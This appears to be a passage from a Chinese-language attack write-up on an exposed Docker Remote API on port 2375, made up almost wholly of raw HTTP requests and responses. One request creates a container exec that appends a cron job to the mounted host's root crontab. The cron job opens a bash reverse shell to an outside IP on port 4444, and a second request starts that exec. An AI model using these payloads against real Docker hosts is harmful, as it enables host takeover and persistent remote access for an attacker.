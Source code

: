 ```plain

HTTP/1.1 204 No Content
Api-Version: 1.38
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:04:19 GMT
Connection: close
```

启动 写 shell 到公钥

```plain
POST /containers/容器id/exec HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 556

{
"AttachStdin":true,
"AttachStdout":true,"AttachStderr":true,
"DetachKeys":"ctrl-p,ctrl-q",
"Tty":false,
"Cmd":["sh","-c","echo '03 11 * * * bash -i >& /dev/tcp/40.*.*.*/4444 0>&1' >> /mnt/var/spool/cron/root"]
}

HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:08:20 GMT
Content-Length: 74
Connection: close

{"Id":"实例 id"}
```

启动就行

```plain
POST /exec/实例id/start HTTP/1.1
Host: *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 27

{"Detach":true,"Tty":false}
```